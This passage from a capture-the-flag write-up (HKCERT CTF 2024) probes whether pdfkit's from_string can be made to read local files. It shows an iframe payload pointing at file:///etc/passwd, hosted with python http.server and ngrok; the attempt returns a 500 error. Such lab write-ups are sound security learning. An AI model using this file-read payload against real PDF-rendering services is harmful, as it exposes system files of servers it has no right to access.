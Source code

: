 Let's test whether library pdfkit function `from_string` vulnerable to SSRF or not!

To do so, we'll need to create an HTML file, which might allow us to read arbitrary files via `<iframe>` element and URL scheme (`file://`):

```html
<iframe src="file:///etc/passwd" width="1000px" height="1000px"></iframe>
```

> Note: In our typical browser, we can't use URL scheme to read arbitrary due to the browser's sandbox. If you can, congrats! You found a browser sandbox escape vulnerability! In some PDF generators, they might disable the sandbox and enable the user to use the URL scheme.

After that, we can host the HTML file via Python `http.server` module and port forwarding the web server via `ngrok`, so that external network can access it: 

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Webpage-to-PDF-(2))-[2024.11.14|20:23:23(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2024/Web/Webpage-to-PDF-(2))-[2024.11.14|20:23:27(HKT)]
└> ngrok http 8000        
[...]
Forwarding                    https://1ea2-{REDACTED}.ngrok-free.app -> http://localhost:8000
```

Now, let's try to convert our payload to a PDF file!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2024/images/Pasted%20image%2020241114202539.png)

As we can see, it doesn't work. The POST route returned HTTP status code "500 Internal Server Error".

Huh, why?

To better understand the error, we should build a local environment:
